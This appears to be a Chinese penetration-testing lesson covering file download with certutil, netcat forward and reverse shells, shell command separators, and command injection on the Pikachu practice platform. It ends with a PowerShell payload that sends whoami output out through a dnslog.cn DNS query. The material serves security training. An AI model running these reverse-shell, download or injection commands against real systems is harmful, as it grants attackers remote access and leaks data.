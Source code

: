 Day05 基础入门-反弹SHELL&不回显带外&正反向连接&防火墙出入站&文件下载
=
案例
-
1.	文件上传下载-解决无图形化&解决数据传输
2.	反弹Shell命令-解决数据回显&解决数据通讯
3.	防火墙绕过-正向连接&反向连接&内网服务器
4.	防火墙组合数据不回显-ICMP带外查询dnslog

#常规基本渗透命令详解
-
常用命令  
<https://blog.csdn.net/weixin_43303273/article/details/83029138>  

#实用案例1:文件上传下载-解决无图形化&解决数据传输  
命令生成:  
<https://forum.ywhack.com/bountytips.php?download>  
Linux : wget curl python rubyperl java等  
Windows : PowerShell Certutil Bitsadmin msiexec mshta rundll32等

Certutil本质是一个管理证书、证书服务和密钥存储的工具，不过黑客们被玩坏了，可以用这个来下载文件。
certutil.exe -urlcache -split -f <http://example.com/file.txt> file.txt

#实用案例2:反弹shell命令-解决数据回显&解决数据通讯命令生成:  
<https://forum.ywhack.com/shell.php>  

# Netcat

### 介绍
（简称nc）一款功能强大的网络工具，在网络管理、渗透测试以及安全评估等领域有着广泛应用，常被称为 “网络瑞士军刀”。  
Netcat 可以用于远程执行命令。  
### 下载
可在此处下载Windows版本的Netcat  
<https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip>

1、正向连接 本地监听，等待对方连接  
-
Linux控制Windows  
>Windows绑定CMD到本地5566端口
>```cmd
>ncat -e cmd -lvp 5566
>```
>Linux主动连接目标
>```bash
>ncat ip 5566
>```
Windows控制Linux  
>绑定sh到本地5566端口
>```bash
>ncat -e /bin/sh-lvp 5566  
>```
>主动连接目标 
>```cmd
>nc ip 5566  
>```

2、反向连接 主动给出去，对方监听  
-
Linux主动给出  
>Linux绑定sh到目标5566端口  
>```bash
>ncat -e /bin/sh 接收者IP 5566
>```  
>Windows监听5566连接  
>```cmd
>nc -lvvp 5566  
>```

Windows主动给出  
>Windows绑定CMD到目标5566端口   
>```cmd
>ncat -e cmd 接收者IP 5566  
>```
>Linux监听5566连接  
>```bash
>nc -lvvp 5566  
>```

***受制于万恶的NAT， 内网的机器只能主动找其他主机.***

特殊符号
-
    Linux	            可用    |	||	&	&&	 ；	``
    Windows-cmd	        可用	|	||	&	&&        不可用 ；	``
    Windows-powershell	可用	|	||	&	&&   ；   不可用 ``

### 1.	| （管道符号）
例如，使用管道可以将文件内容通过`cat`命令输出，并通过`grep`命令进行筛选：
cat file.txt | grep "keyword"
https://blog.csdn.net/zhangkunls/article/details/143167921
### 2.	||（逻辑或）
command1 || command2
如果 command1 执行失败（返回一个非零状态码），则 command2 会被执行。如果 command1 执行成功（返回零状态码），则 command2 不会被执行。
### 3.	&&（逻辑与）
https://blog.csdn.net/dessler/article/details/142343304
### 4.	&（后台任务）
在Linux中，当你在命令的末尾添加“&”时，该命令会在后台运行，这样你就可以继续在同一个终端上进行其他操作，而不会因为该命令的执行而被阻塞。
### 5.	；
Linux系统中的分号（;）用于在命令行中分隔多个命令，使得这些命令可以顺序执行。
### 6.	``
``中的内容执行后替换

实战
-
Windows Server 部署Pikachu漏洞练习平台，打开RCE-exec“ping”  
1、	下载源码  
2、	添加网站并上传源码  
3、	找到Pikachu漏洞练习平台中的RCE-exec“ping”  
4、	利用符号进行漏洞利用  

关键词：防火墙的出站和入站限制

存在漏洞，但是数据不回显：  
1、	反弹shell  
2、	带外查询  

DnsLog
-
<http://www.dnslog.cn/>是一个提供 DNSLog 服务的网站。  
DNSLog 是一种利用 DNS 协议记录相关信息来进行安全测试、漏洞挖掘等的技术手段。在安全测试场景中：  
当测试人员想要探测目标系统是否存在某些漏洞（如命令执行漏洞）时，若在目标系统中执行的命令能够触发向特定域名发起 DNS 查询请求，通过在 “dnslog.cn” 这类平台上点击”Get SubDomain”创建唯一标识的域名，就可以通过查看该平台上的 DNS 查询记录，确认目标系统是否执行了特定命令，以此来判断漏洞是否存在。  

Windows的cmd不能使用``，所以我们可以用powershell来定义变量：  
输出当前用户
```powershell
$a=whoami  
echo $a  
```
输出当前用户和ip配置
```powershell
$x=whoami;$y=ipconfig  
$x+$y  
```
作用是把$x中的\替换成x，并赋值给$xx变量  
```powershell
$xx=$x.replace('\','x');  
```
上面的语句中分号是作为每条命令的结束，这些功能是cmd所不具备的。  


当数据不能回显时  
看一下是否能正确执行命令  
在pikachu漏洞练习平台模拟让服务器向dnslog.cn发起请求  
Rce-ping构造恶意语句  
```powershell
127.0.0.1 | powershell.exe $a=whoami;$aa=$a.replace('\','x');$bb='.dbwph8.dnslog.cn';$c=$aa+$bb;ping $c;  
```
这时候刷新，dnslog就会出现记录  
